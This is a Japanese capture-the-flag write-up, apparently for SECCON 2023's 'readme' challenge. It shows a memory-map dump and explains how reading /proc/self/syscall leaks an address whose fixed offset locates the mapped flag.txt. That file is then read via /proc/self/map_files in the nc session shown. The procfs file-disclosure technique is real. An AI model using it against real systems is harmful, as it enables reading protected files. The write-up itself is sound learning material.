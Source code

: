 ```sh
7f8922e61000-7f8922f4f000 r--p 00000000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8922f4f000-7f8923103000 r-xp 000ee000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8923103000-7f89231e6000 r--p 002a2000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f89231e6000-7f8923215000 r--p 00384000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8923215000-7f8923346000 rw-p 003b3000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8923346000-7f892338b000 rw-p 00000000 00:00 0 
7f892338b000-7f892338c000 r--p 00000000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f892338c000-7f89233b1000 r-xp 00001000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f89233b1000-7f89233bb000 r--p 00026000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f89233bb000-7f89233bd000 r--p 00030000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f89233bd000-7f89233bf000 rw-p 00032000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fff3eee6000-7fff3ef07000 rw-p 00000000 00:00 0                          [stack]
7fff3efc6000-7fff3efca000 r--p 00000000 00:00 0                          [vvar]
7fff3efca000-7fff3efcc000 r-xp 00000000 00:00 0                          [vdso]
```

プログラムを実行するたびに該当のアドレスは変わるみたいなので、アドレスが書いてあるファイルを探す。  
ファイルの読み込みバイト上限（0x100）なので、`/proc/self/maps`だと肝心のflag.txtのアドレスは分からない。

`/proc/self/syscall`の一番後ろの値（`0x7f8922d7607d`）が使えそう。

```sh
ctf@52f21ee060a3:/$ cat /proc/44/syscall
0 0x0 0x561976776ff0 0x2000 0x2 0x0 0x0 0x7fff3ef05d98 0x7f8922d7607d
```

しかも、flag.txtのアドレスとの差分が毎回同じようなので、逆算してflag.txtの先頭アドレスを特定できる。  
末尾アドレスは`+ 0x1000`。

- 例

| | |
-- | --
/proc/self/syscall | 7f85f5e9807d
/home/ctf/flag.txt | 7f85f5f82000-7f85f5f83000
[先頭アドレスまでの差分] | e9f83

スクリプトを書いても良かったが、実行時間の制限が60秒なため手動で計算した。

```sh
$ nc readme-2023.seccon.games 2023
path: /proc/self/syscall
b'0 0x7 0x55bfd84bb6b0 0x400 0x2 0x0 0x0 0x7ffca7f7b078 0x7f85f5e9807d\n'
path: /proc/self/map_files/7f85f5f82000-7f85f5f83000
b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
path:
```
